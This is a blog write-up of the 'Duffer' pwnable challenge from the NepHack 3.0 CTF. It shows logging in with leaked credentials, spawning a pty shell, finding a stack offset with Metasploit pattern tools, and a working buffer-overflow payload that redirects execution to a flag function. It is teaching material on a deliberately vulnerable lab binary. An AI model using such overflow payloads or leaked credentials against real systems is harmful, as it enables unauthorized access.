

# Nephack 3.0


Actually NepHack is one of the Biggest Hacking Competition of Nepal after [threatcon](https://threatcon.io/) which is especially CTF (Jeopardy type) competition which is held annually every year in K.U.( Kathmandu University), Dhulikhel, Nepal.
<!--more-->

## Introduction

Actually NepHack is one of the Biggest Hacking Competition of Nepal after [threatcon](https://threatcon.io/) which is especially CTF (Jeopardy type) competition which is held annually every year in K.U.( Kathmandu University), Dhulikhel, Nepal. But unfortunately this year due to some internal problem of K.U NepHack 3.0 was held in premises of [Cynical Technology](https://cynicaltechnology.com/) .

Event happened at Jan 25–26,2020 but unfortunately I wasn’t able to attend due to my work . Luckily they decided to went live for 48 hours to play online(nephack.io)after 2 days of the event and I would like to thank Cynical Technology for it.

During that live session, I was able to secure first position but at last hour i.e. 10:00 pm I was downgraded to 2nd position by team caphilates but the score was equal. I would like to Congratulate team caphilates for winning the NepHack 3.0 online.


Here I would like to especially focus on the Pwnable challenges and talking about my background,I am active at Hack The Box( HTB) since 6 months. You can see my profile here [gr4n173](https://www.hackthebox.eu/profile/60443).

## PWNABLE->>CHALLENGES


I was able to solve two challenges only: Shadow and Duffer. Among them I liked Duffer box because it was related to Buffer-overflow.

## Duffer
It was the time when our team decided to organize CTF outside the Valley. We created many challenges for CTF and event was successfully conducted you can see details here [VECTORCTF(CoTS)](https://www.facebook.com/events/424450345158496/?active_tab=discussion). Among them I had created one of the challenges related to bof and luckily same challenge was in NepHack 3.0 which was of 496 points named Duffer.


They have given ssh.log file on

```bash
root@gr4n173:~$cat ssh.log
```

I got `ssh.log`. part file there I can see the ssh login attempt log file by different user . I got the credentials from one of the members *maskop9* from winning team(me0w) during live event . Credential is hacker/cynical1 with local IP `192.168.10.189`. Since IP given was local IP, I wasn’t able to ssh into that user so I had to figure out other ways and I noticed I had a shell from shadow challenge which was of `phindrella` user and I am going to publish next Writeup where I will explain how I got `phindrella` user and it’s shell.

Then, I tried with that credentials as


Fig:-*Into hacker shell*


I am able to login hacker shell and since I was in tty shell I had to spawn that shell so I used

```
root@gr4n173:~$python -c ""import pty;pty.spawn(‘/bin/bash’)"
```

As challenge have given a description about the location at /hom/pax and I got two files.


Fig:- *hacker_shell*

one is vuln executable and other is flag.txt which doesn’t have permission to read .Since vuln file is ELF file so I generally read that file with gdb but my bad organizer doesn’t have gdb installed in that shell. So first I have to download that file to my localhost for that I used scp

```
root@gr4n173:~$scp hacker@iZa2dh0wn9s9aolc3csaudZ:/home/pax /root/Downloads/
```

this way I was able to download to my localhost and I had given the execute permission to that file.

```
root@gr4n173:~$chmod +x vuln
```

I had gdb install so used this command to read vuln file

```
root@gr4n173:~$gdb -q vuln
```


 
 
Fig:- *vuln run normally*
 
		
nothing happened there and I entered many random text and I got `segmented fault`.



Now, I had to find the offset after which `SIGSEGV` fault occurred. I mostly use one of my favorite method to find offset as

```
root@root:$ /usr/share/metasploit framework/tools/exploit/./pattern_create.rb -l 100
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A

root@root:$ /usr/share/metasploit-framework/tools/exploit/./pattern_offset.rb -q 0x0000555555554830
[*] Exact match at offset 40
This way I got the offset. Then, I had to find the function where flag is located. For that I searched every functions and got this
```


fig:-*Functions names*

there I got `fLog()` function as noticeable and had to find the address of this function as


Fig:- *Address of fLog*

Since that is the address before running the file and after running I got this


Fig:-*Address of fLog after running file*


Since all the address should be used in `Little Endian` format. There is small story about `Little Endian` if you are interested you can read from [here](https://www.ling.upenn.edu/courses/Spring_2003/ling538/Lecnotes/ADfn1.htm) 

Address is `0x8a4755555555` in Little Endian format and

> offset = 40
> 
> address to call = 8a4755555555

So my final payload was:

```
root@gr4n173:~$python -c “print(‘A’*40 + ‘\x8a\x47\x55\x55\x55\x55’)” | ./vuln
```


Fig:- *Flag*

This way I got the flag as `cynical_flag{hacker_kto_mah}` and got 495 points.

I wanted to thank all readers for being with me through my post and I will be posting other walkthrough of NepHack 3.0 challenges soon.
At last, I would like to acknowledge brother [@maskop9](https://twitter.com/maskop9) for helping through out the competition and other helping hands along with the organizer Cynical Technology for awesome platform seems like they too have bugbounty platform as bugv.io :)


